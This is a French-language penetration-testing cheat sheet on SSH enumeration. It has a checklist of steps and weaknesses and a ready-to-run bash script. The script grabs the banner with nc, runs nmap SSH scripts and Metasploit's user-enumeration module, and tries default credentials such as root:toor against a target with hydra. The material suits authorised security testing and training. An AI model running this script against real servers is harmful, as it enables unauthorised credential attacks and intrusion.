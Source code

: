 ## 📋 Checklist Énumération SSH

### ✅ Étapes Essentielles :
1. **Banner Grabbing** - Version SSH et OS
2. **Vulnerability Check** - CVE selon version
3. **User Enumeration** - Liste des comptes existants
4. **Default Credentials** - Test des mots de passe par défaut
5. **Brute Force** - Si autorisé et pas de protection
6. **SSH Keys Search** - Clés exposées sur web/repos
7. **Configuration Analysis** - Si accès obtenu

### ✅ Vulnérabilités à Vérifier :
- **Weak Passwords** → Brute force attack
- **Default Credentials** → Immediate access
- **User Enumeration** → CVE-2016-6210 (timing)
- **Exposed SSH Keys** → Key-based authentication bypass
- **Root Login Enabled** → Direct admin access
- **Weak SSH Config** → Various misconfigurations

## 🛠️ Script d'Énumération SSH Automatisé

```bash
#!/bin/bash
# SSH Enumeration Script

TARGET=$1
if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_ip>"
    exit 1
fi

echo "[+] Starting SSH enumeration for $TARGET"
mkdir ${TARGET}_ssh_enum

# 1. Banner grabbing
echo "[+] Getting SSH banner..."
timeout 5 nc $TARGET 22 > ${TARGET}_ssh_enum/banner.txt 2>&1

# 2. Nmap SSH scripts
echo "[+] Running nmap SSH scripts..."
nmap --script ssh-* $TARGET -p 22 > ${TARGET}_ssh_enum/nmap_ssh.txt

# 3. User enumeration (if vulnerable)
echo "[+] Testing user enumeration..."
msfconsole -q -x "use auxiliary/scanner/ssh/ssh_enumusers; set RHOSTS $TARGET; set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt; run; exit" > ${TARGET}_ssh_enum/user_enum.txt

# 4. Test common credentials
echo "[+] Testing common credentials..."
echo "root:root
root:toor
root:password
admin:admin
admin:password" > ${TARGET}_ssh_enum/common_creds.txt

hydra -C ${TARGET}_ssh_enum/common_creds.txt $TARGET ssh > ${TARGET}_ssh_enum/hydra_common.txt

echo "[+] SSH enumeration completed!"
echo "[+] Results saved in ${TARGET}_ssh_enum/"
```
